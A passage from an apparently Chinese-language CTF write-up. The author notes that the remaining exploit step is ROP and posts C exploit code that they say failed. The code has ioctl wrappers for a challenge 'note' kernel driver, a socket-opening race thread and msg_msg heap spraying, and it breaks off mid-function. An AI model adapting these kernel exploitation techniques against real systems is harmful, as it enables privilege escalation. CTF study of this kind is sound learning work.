 剩下的 exploit 就是 ROP 了

# Exploit (Fail)
這邊附上我不知道為什麼失敗的 exploit, 希望有人能解答 QQ
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <sys/ipc.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/msg.h>
#include <string.h>
#include <sys/socket.h>
#include <pthread.h>
#include <sys/mman.h>

int result;
int msqid;
int fd;

struct message {
    long type;
    char text[0x50];
} msg;

struct info {
    long long int length;
    char *addr;
} args, read_args;

void* race(void *_)
{
    sleep(1);
    socket(22, AF_INET, 0);
    return NULL;
}

void note_alloc()
{
    ioctl(fd, 0xC12ED001, &args);
}

void note_close()
{
    ioctl(fd, 0xC12ED002, &args);
}

void note_write()
{
    ioctl(fd, 0xC12ED003, &args);
}

void note_read()
{
    ioctl(fd, 0xC12ED004, &read_args);
}

void msg_alloc(int size)
{
    if (msgsnd(msqid, (void *)&msg, size - 0x30, IPC_NOWAIT) < 0) {
```